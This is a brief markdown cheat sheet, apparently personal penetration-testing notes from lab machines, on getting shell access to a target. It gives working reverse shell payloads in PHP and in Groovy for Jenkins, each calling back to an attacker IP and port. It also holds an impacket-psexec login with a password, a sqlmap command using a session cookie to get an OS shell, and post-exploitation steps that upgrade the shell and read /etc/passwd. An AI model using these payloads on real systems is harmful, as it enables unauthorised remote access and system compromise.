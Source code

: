 ### Create reverse shell in different languages

- #### php
    ```php
    <?php
        $sock=fsockopen("10.10.15.211",4444);
        $proc=proc_open('/bin/sh -i', array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
    ?>
    ```
- #### Groovy (jenkins)
    ```groovy
    String host="10.129.181.48";
    int port=4444;
    String cmd="/bin/bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
    ```

- samba
    ```bash
    impacket-psexec 'abcd:!passWord@10.129.32.122'
    ```
- sql injection
    ```bash
    sqlmap -u http://10.129.207.176/dashboard.php\?search\= --cookie="PHPSESSID=vkrvi768lbi9l638e7n8ovv03e" --os-shell
    ```

- More
  - https://www.revshells.com/
### Post reverse shell
- #### Setup stable shell interface
    ```bash
    alias ls='ls --color=always -lAh'
    python3 -c "import pty;pty.spawn('/bin/bash')"
    ```

- #### Check list
    ```bash
    cat /etc/passwd | grep sh
    find / -group www-data 2>/dev/null | grep -v '/proc/'
    ```
